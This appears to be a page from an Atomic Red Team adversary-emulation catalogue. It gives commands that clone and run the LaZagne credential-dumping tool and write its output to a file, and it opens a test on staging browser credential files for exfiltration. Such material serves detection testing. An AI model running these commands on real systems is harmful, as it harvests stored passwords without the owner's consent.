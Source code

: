 
#### Attack Commands: Run with `sh`!  Elevation Required (e.g. root or admin) 


```sh
python3 #{lazagne_path}/laZagne.py #{specific_module} >> #{output_file}
```

#### Cleanup Commands:
```sh
rm -R /tmp/LaZagne; rm -f #{output_file}
```



#### Dependencies:  Run with `sh`!
##### Description: Get Lazagne from Github and install requirements
##### Check Prereq Commands:
```sh
test -f #{lazagne_path}/laZagne.py
```
##### Get Prereq Commands:
```sh
cd /tmp; git clone https://github.com/AlessandroZ/LaZagne; cd /tmp/LaZagne/; pip install -r requirements.txt
```
##### Description: Needs git, python3 and some pip stuff
##### Check Prereq Commands:
```sh
which git && which python3 && which pip
```
##### Get Prereq Commands:
```sh
apt install git; apt install python3-pip -y; pip install pyasn1 psutil Crypto
```




<br/>
<br/>

## Atomic Test #10 - Stage Popular Credential Files for Exfiltration
This test is designed to search a drive for credential files used by the most common web browsers on Windows (Firefox, Chrome, Opera, and Edge), export the found files to a folder, and zip it,
simulating how an adversary might stage sensitive credential files for exfiltration in order to conduct offline password extraction with tools like [firepwd.py](https://github.com/lclevy/firepwd) or [HackBrowserData](https://github.com/moonD4rk/HackBrowserData).

**Supported Platforms:** Windows


**auto_generated_guid:** f543635c-1705-42c3-b180-efd6dc6e7ee7
